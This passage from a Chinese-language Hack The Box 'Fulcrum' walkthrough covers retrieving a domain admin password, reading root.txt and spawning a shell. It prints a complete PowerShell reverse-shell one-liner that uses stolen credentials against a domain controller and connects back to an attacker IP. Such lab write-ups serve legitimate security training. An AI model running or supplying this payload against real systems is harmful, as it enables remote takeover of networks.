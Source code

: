 ## 发现域管密码

[![](assets/1699929055-ee1f15b87abe06c3def74778063c0af9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104435-95137a4c-81ce-1.png)

获取 root.txt  
读取到 root.txt

[![](assets/1699929055-38528d9791459d01e18fac9ddda11092.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104444-9a08b0e4-81ce-1.png)

## 反弹 shell

执行命令，然后使用 nc 来反弹 shell。

```plain
Invoke-Command -Computer dc.fulcrum.local -Credential $cred -scriptblock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.6',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  }
```

[![](assets/1699929055-8ca83f1b4673788586921adc02da81a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104457-a218ddd6-81ce-1.png)

REF:  
[https://www.cnblogs.com/autopwn/p/14049762.html](https://www.cnblogs.com/autopwn/p/14049762.html)  
[https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/](https://www.hackingarticles.in/hack-the-box-fulcrum-walkthrough/)
